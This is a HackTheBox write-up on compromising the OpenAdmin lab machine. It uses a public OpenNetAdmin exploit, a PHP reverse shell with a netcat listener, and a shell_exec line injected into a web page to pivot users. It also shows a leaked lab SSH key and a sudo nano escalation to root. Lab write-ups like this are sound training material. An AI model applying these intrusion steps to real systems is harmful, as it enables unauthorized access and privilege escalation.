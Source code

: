 ```yaml
---
layout: default
title: OpenAdmin
parent: HackTheBox
nav_order: 4
---
```


![](pictures/logo-openadmin.png)

## Table of contents
{: .no_toc .text-delta }


- Summary
- Recon
- Intrusion
- Lateral Movement
- Privilege Escalation
{:toc}

## [](#header-2)Summary:

1. Use login function in hidden directory to enumerate vulnerable OpenNetAdmin version 
2. Exploit OpenNetAdmin to gain low privilege shell
3. SSH back in with newly found credentials 
4. Edit Ibpage to execute shell with escalated privileges
5. Break into root shell with nano binary 

## [](#header-2)Recon:


Doing our regular nmap scan for safe scripts and running services-versions I see that there is a ssh port 22 as and an apache server running on port 80.

![](pictures/nmap-oa.png)


From gobuster, I can see a few directories that look interesting.

![](pictures/gobuster-oa.png)


Once I go to to the website on port 80, I see the default apache config doc.


![](pictures/apache-oa.png)

After navigating through the newly found directories some more, I find that /music has a login/create account functions which always peek my interest.



![](pictures/music-oa.png)



After clicking on the login function, I am immediately directed into a OpenNetAdmin portal.

![](pictures/login-oa.png)

When I try logging with admin/admin credentials I am able to successfully log in.

![](pictures/login1-oa.png)

This does not give us any different information unfortunately.

After researching the OpenNetAdmin version with searchsploit I see that the version is vulnerable.

![](pictures/sp-oa.png)

TIP: use searchsploit -m flag to put the exploit in same dir.

Once I edit the exploit code a bit and run I am able to get a shell within the OpenNetAdmin directory.

![](pictures/open-oa.png)

## [](#header-2)Intrusion:


 
Get pop a shell but it is restricting.

From here I wanted to get a more interactive shell so after confirming python was on the system with.

```bash
locate python

```

I tried spawning a shell with 
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"

```

 and I also tried many other shell methods (perl,sh,ruby,etc..) but none worked, so I just searched through the dirs with ls and cat commands to see if I could find anything useful.

Once I go through a couple of files I am able to find one with database credentials.



![](pictures/dbset-oa.png)



In order to access the mysql database with these creds, I had to get a better shell.

I started by downloading a php reverse shell from a python server I set up on my host computer to the ona web folder and executing it.

![](pictures/shell-oa.png)


setting up nc to listen for the connection
![](pictures/nc-oa.png)

Command to execute shell
```bash
php php-reverse-shell.php
```
![](pictures/shell1-oa.png)

Once I'm in with the new shell, I had to use spawn a python shell because the mysql command was still not working...

![](pictures/py-oa.png)

After that I was able to get into the mysql database and have a look around.

The only thing I get is encrypted creds for the guest and admin which come out to be:

guest pass test
admin pass admin 

But these end up being a dead end.


After trying a couple of things I ended getting ssh access with one of the user accounts "jimmy" who used the same password as the database user "ona_sys".


![](pictures/jm-oa.png)


Looking at possible way to escalate privileges or find a flag I see that their is a high port open, which is worth a little investigation.

Going to the IP on that port does not get me anything but I am able to find another web directory /var/www/internal.

One of the files "main.php" caught my eye since it used shell_exec to spit out the contents of Joanna's ssh key.

Once I curled main.php I was able to receive the encrypted ssh key
```bash
jimmy@openadmin:/var/www/internal$ curl localhost:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

By playing around with main.php some more I was able to get the page to reveal out the user flag with the commands below.

![](pictures/play-oa.png)



Unfortunately, I could not access the root folder via this method.
## [](#header-2)Lateral Movement:

From here I knew that the webpage could execute commands with Joanna's permissions so I decided to download another reverse php shell to the web directory and execute it within main.php.

Once I edit the main.php file to include the command.

```php
shell_exec(php php-reverse-shell.php)

```

Al I have to do is curl the main.php page and set up a netcat listener for the reverse php shell and......


![](pictures/nc1-oa.png)


From here I am able to find the user flag, but still not able to access the root folder.
In order to even get a suitable shell, I had to make a new set of ssh keys and put them in the ~/.ssh/authorized_folder so that I could ssh back in without a passphrase/password for joanna.
![](pictures/ssh-oa.png)
## [](#header-2)Privilege Escalation:


Using sudo -l I find that the the command /bin/nano /opt/priv can be used with sudo privileges and without providing a password.

Looking at GTFObins seeing 

![](pictures/nano-oa.png)


Using the commands provided by GTFObins I am able to get a root shell.
![](pictures/root-oa.png)

![](pictures/root1-oa.png)

That's it!

